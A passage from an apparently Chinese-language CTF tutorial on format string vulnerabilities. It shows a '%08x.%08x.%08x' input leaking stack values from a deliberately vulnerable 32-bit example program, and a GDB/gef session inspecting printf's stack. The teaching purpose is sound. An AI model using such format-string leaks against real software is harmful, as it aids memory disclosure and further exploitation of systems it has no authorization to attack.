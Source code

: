 可以看出，编译器指出了我们的程序中没有给出格式化字符串的参数的问题。下面，我们来看一下，如何获取对应的栈内存。

根据C语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64位会根据其传参的规则进行获取)。这里我们主要介绍32位。

### 获取栈变量数值

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%08x.%08x.%08x   
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb%                           
```

可以看到，我们确实得到了一些内容。为了更加细致的观察，我们利用GDB来调试一下，以便于验证我们的想法，这里删除了一些不必要的信息，我们只关注代码段以及栈。

首先，启动程序，将断点下载printf函数处

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
```

之后，运行程序

```shell
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
%08x.%08x.%08x

```

此时，程序等待我们的输入，这时我们输入%08x.%08x.%08x，然后敲击回车，是程序继续运行，可以看出程序首先断在了第一次调用printf函数的位置

```shell
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.
────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
──────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x1c: 0x000000c2
```
